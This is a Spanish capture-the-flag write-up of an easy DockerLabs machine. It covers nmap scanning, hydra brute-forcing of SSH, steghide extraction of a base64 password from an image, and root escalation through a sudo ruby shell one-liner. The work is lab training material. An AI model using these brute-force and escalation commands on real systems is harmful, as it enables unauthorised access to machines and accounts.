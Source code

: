 # Write-up - Explotación con Esteganografía y Escalada con Ruby

**Sitio:** DockerLabs  
**Dificultad:** Fácil  
**Fecha:** 03/06/2025  
**Aprendizaje:**  
- Refrescar cómo decodificar texto en Base64 desde la terminal.  
- Copiar archivos entre máquinas mediante `scp`.  
- Uso de `steghide` para extracción de archivos ocultos en imágenes.  
- Enumeración horizontal de usuarios.  
- Escalada de privilegios utilizando Ruby.

---

## Enumeración y acceso

### 1. Escaneo de puertos con Nmap

`sudo nmap -sSV -O 172.17.0.2`

> Resultado:

`22/tcp` → SSH (OpenSSH 9.6p1)  
`80/tcp` → HTTP (Apache 2.4.58)  
SO: `Linux`  

---

### 2. Información recolectada desde el sitio web

* Usuario despedido: `juan`
* Motivo: Compartió una contraseña por correo
* Firmado por: `carlota`

---

### 3. Fuerza bruta de acceso SSH

`hydra -l carlota -P /usr/share/wordlists/rockyou.txt -V ssh://172.17.0.2`

## Credenciales encontradas:

Usuario: `carlota`  
Contraseña: `babygirl`  

---

### 4. Copia remota del archivo sospechoso

`scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Desktop/img/`

---

## Análisis de la imagen

### 5. Revisión de metadatos

`steghide info imagen.jpg`

> Se detecta archivo incrustado: `secret.txt`

### 6. Extracción del archivo oculto

`steghide extract -sf imagen.jpg`

> No se requiere contraseña, el archivo se extrae igualmente.

---

### 7. Decodificación del archivo

Contenido del archivo:

`ZXNsYWNhc2FkZXBpbnlwb24=`

`echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d`

> Resultado: `eslacasadepinypon`

---

### 8. Acceso con el usuario oscar

`ssh oscar@172.17.0.2`  
`Contraseña: eslacasadepinypon`  

---

## Escalada de privilegios

### 9. Revisión con `sudo -l`

`sudo -l`

> Resultado:

(ALL) NOPASSWD: /usr/bin/ruby

### 10. Escalada con Ruby  

`sudo ruby -e 'exec "/bin/sh"`  

### 11. Verificación  

> whoami = `root`  
